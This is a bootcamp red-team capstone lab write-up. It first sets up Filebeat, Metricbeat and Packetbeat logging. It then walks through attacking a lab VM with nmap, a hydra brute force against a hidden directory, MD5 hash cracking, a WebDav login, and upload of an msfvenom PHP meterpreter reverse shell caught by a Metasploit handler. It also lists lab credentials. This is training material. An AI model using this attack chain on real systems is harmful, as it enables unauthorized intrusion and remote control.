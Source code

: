 ## Day 1 Activity File: Red Team

### Monitoring Setup Instructions

- As the you attack a web server today, it will send all of the attack info to an ELK server.

- The following setup commands need to be run on the **Capstone** machine before the attack takes place in order to make sure the server is collecting logs.

- Be sure to complete these steps before starting the attack instructions.

**Instructions**

- Double click on the 'HyperV Manager' Icon on the Desktop to open the HyperV Manager.

- Choose the `Capstone` machine from the list of Virtual Machines and double-click it to get a terminal window.

- Login to the machine using the credentials: `vagrant:tnargav`

- Switch to the root user with `sudo su`
> ![sudosu](images/log_in_and_root_switch(1).JPG)

#### Setup Filebeat

Run the following commands:
- `filebeat modules enable apache`
- `filebeat setup`

> ![filebeat](images/filebeat_enable(2).JPG)

#### Setup Metricbeat

Run the following commands:
- `metricbeat modules enable apache`
- `metricbeat setup`

> ![metricbeat](images/metricbeat_enable(3).JPG)

#### Setup Packetbeat

Run the following command:
- `packetbeat setup`

> ![packetbeat](images/packetbeat_enable(4).JPG)

Restart all 3 services. Run the following commands:
- `systemctl restart filebeat`
- `systemctl restart metricbeat`
- `systemctl restart packetbeat`

These restart commands should not give any output:

![service_restart](images/service_restart(5).JPG)

Once all three of these have been enabled, close the terminal window for this machine and proceed with your attack.

---

### Attack!

Today, you will act as an offensive security Red Team to exploit a vulnerable Capstone VM.

You will need to use the following tools, in no particular order:
- Firefox
- Hydra
- Nmap
- John the Ripper
- Metasploit
- curl
- MSVenom

### Setup

Your entire attack will take place using the `Kali Linux` Machine.

- Inside the HyperV Manager, double-click on the `Kali` machine to bring up the VM login window.

- Login with the credentials: `root:toor`

### Instructions

Complete the following to find the flag:

- Discover the IP address of the Linux web server.
> Command: `ifconfig`
> 
> ![capstoneIP](images/capstoneIP(7).JPG)
> 
> Command: `nmap -sS -sV 192.168.1.105`
> 
> ![nmap_capstone_machine](images/nmap_scan1(9).JPG)
> 
> Command: `nmap -sS -A 192.168.1.105`
> 
> ![nmap_scan2](images/nmap_scan2.JPG)
> ![nmap_scan3](images/nmap_scan3.JPG)
> 



- Locate the hidden directory on the web server.
> ![dirb_scan](images/dirb_scan.JPG)

- Brute force the password for the hidden directory using the hydra command:
> 
> Command: `hydra -l ashton -P ~/Downloads/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder`
> 
> ![hydra](images/hydra(20).JPG)
> 
> After gaining access to the `/secret_folder` using `ashton` & `leopoldo` I was able to view a file which contained the log in information required to access the `WebDav`.
>
> ![secret_folder_info](images/secret_folder_connect_to_corp_server.JPG)


- Break the hashed password with the Crack Station website or John the Ripper.

> Ryan's hash: `d7dad0a5cd7c8376eeb50d69b3ccd352`
> 
> ![hash_decrypt](images/ryan_hash_decrypt.JPG)


- Connect to the server via WebDav.
>
> After cracking the `md5` hash, I logged into the `WebDav` server using `ryan` & `linux4u`.
> 
> ![webdav_login](images/ryan_webdav_login.JPG)
>
> Once inside the parent directory, I accessed the file named `passwd.dav` which contained this:
> 
> ![ryan_password](images/ryan_password.JPG)
>
> Afterwards, I used a built in program `Kali File Manager` to be able to place a reverse shell script into the `WebDav` server in the next section. 
>
> ![filemanager](images/accessto_webdav.JPG)

- Upload a PHP reverse shell payload.
>
> Command: `msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 > reverseshell.php`
> 
> ![msfvenom_shell](images/msfvenom_shell.JPG)
> 
> The `reverseshell.php` contained the following:
> 
> ![shell_script](images/reverseshell_script.JPG)
> 
> I then placed the script into the `WebDav` server using `Kali File Manager`, and checked for it on the website. 
> 
> ![payload_delivered](images/payload_delivered.JPG)
> 
> ![firefox_shell](images/firefox_shell.JPG)

- Execute payload that you uploaded to the site to open up a meterpreter session.

> First I started `Metasploit` using the command: `msfconsole`
> 
> ![msfconsole](images/msfconsole_mf5.JPG)
> 
> I then needed to `search` and select the type of exploit to use, this this case it would be `multi/handler`. 
> 
> ![payload_handler](images/payload_handler.JPG)
> 
> The next step is to select the correct one which is option `6`.
> 
> ![use6](images/use6.JPG)
> 
> Now that I've selected my exploit I needed to designate and set a `payload`.
> 
> Command: `set Payload php/meterpreter/reverse_tcp`
> 
> ![msfpayloaddesignation](images/msf_payload_designation.JPG)
> 
> Now it is time to set the `LHOST` & `LPORT`.
> 
> Command: `set LHOST 192.168.1.90` & `set LPORT 4444`
> 
> ![lhost_lport_msf](images/lhost_lport_msf.JPG)
> 
> Finally, it is time to `exploit` and establish a meterpreter session. 
> 
> ![exploit](images/meterpreter_established.JPG)

- Find and capture the flag.

> Command: `pwd`
> 
>![pwd_webdav](images/pwd_webdav.JPG)
>
> Next I wanted to change directories to see what else was stored on the `WebDav` machine.
> 
> Command: `cd /` followed by `ls`
> 
> ![flag_found](images/flag_found.JPG)
> 
> The `ls` command displayed a file named `flag.txt`. I then used `cat` to view the contents of that file which was:
> 
> ![flag_captured](images/flag_captured.JPG)

---
© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
